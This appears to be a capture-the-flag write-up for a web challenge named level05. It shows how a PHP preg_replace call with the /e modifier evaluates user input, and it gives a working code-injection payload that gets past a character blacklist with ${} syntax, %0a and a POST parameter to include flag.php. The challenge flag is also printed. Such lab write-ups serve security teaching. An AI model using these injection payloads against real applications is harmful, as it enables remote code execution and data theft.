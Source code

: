 ```yaml
---
layout: default
title: level05
---
```


Here we can see it uses this line:
```php
$corrected = preg_replace ("/([^$blacklist]{2,})/ie", 'correct ("\\1")', $q);
```

The problem here is the `/e`, with the fact we can insert our input into correct. So, basiclly what happens is: `eval(correct('userInput'))`, which can lead us to RCE :)

So, let's build our payload: 
We want to include `flag.php` and echo `$flag`, however, we can't use: ``["'", '"', '(', ')', ' ', '`']``. So, let's try bypassing:
1. Execute include by running: `${include 'flag.php'}`, using `${}`.
2. Using `%0a` instead of `' '`. 
3. Using params to give strings, like: `$_POST[filename]`, and then add to the query `&filename=flag.php`

### Constructing

q = `${include + %0a + $_POST[filename]} + $flag + &filename=flag.php` -> `${include%0a$_POST[filename]}$flag&filename=flag.php` 

![Final FLAG](./images/level05.png)

**Flag:** ***`WEBSEC{Writing_a_sp3llcheckEr_in_php_aint_no_fun}`*** 
